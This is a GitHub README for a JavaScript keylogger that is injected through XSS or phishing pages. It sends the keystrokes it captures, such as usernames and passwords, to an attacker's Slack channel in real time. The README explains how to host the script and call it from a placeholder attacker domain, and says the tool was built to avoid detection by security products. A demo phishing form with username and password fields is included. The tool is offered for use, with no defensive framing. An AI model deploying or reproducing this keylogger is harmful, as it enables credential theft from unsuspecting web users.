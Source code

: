 # JS_KeyLogger_to_Slack
To be used with XSS or Phishing to Get Real-Time Keyboard Input Without Waiting for or Controlling Form Submission!

# Description
I wanted to improve upon my XSS API by adding support for capturing all keystrokes by the end user and sending them to a Slack channel for real time monitoring.  This allows for a quicker response to phishing attacks and more information than what's provided by POSTing an HTML form.  It's also more simple that BeEF so it hopefully won't get picked up by any security products!  Because we don't want to flood the Slack Channel or API by submitting each character at a time, we wait until the "Enter/Return" key is pressed or at Mouse click.  I figure this is most likely after a user is finished entering data into an input field somewhere on the page.

# Instructions

Simply host the Keylogger client-side JavaScript (kl.js) on a webserver that's publicly accessible, or embed it directly within your HTML.  If hosting it, simply call it like you would any JS with `<script src="https://YOUR_DOMAIN_HERE/kl.js"></script>`.

Host the Keylogger server-side PHP API (kl.php) on your web server and be sure to edit the variables to point to your Slack Channel via a Webhook.

# Demo

Test it out with something as simple as this : 

```
<HTML>
<BODY>
<SCRIPT SRC="https://YOUR_DOMAIN_HERE/kl.js">
</SCRIPT>
<CENTER>
<H2>JS Phishing/XSS Keylogger to Slack!</H2>
<B>Note: </B>Try typing anywhere and then click the mouse or hit Enter/Return on your keyboard
<BR><BR>
<TABLE>
<TR><TH>Username</TH><TH>Pass</TH></TR>
<TR><TD><INPUT TYPE="text" VALUE="" NAME="User"></TD><TD><INPUT TYPE="password" VALUE="" NAME="Pass"></TD></TR>
</TABLE>
<BUTTON TYPE="button">SUBMIT</BUTTON>
</CENTER>
</BODY>
</HTML>
```

<p align="center"><img align="center" alt="Client Example" src="https://s22.postimg.cc/nk5u28dep/Capture.png">
*Client Example*</p>

<p align="center"><img align="center" width="400" alt="Watching in Slack" src="https://s22.postimg.cc/4rtyynoq9/Capture2.png">*Watching in Slack*</p>
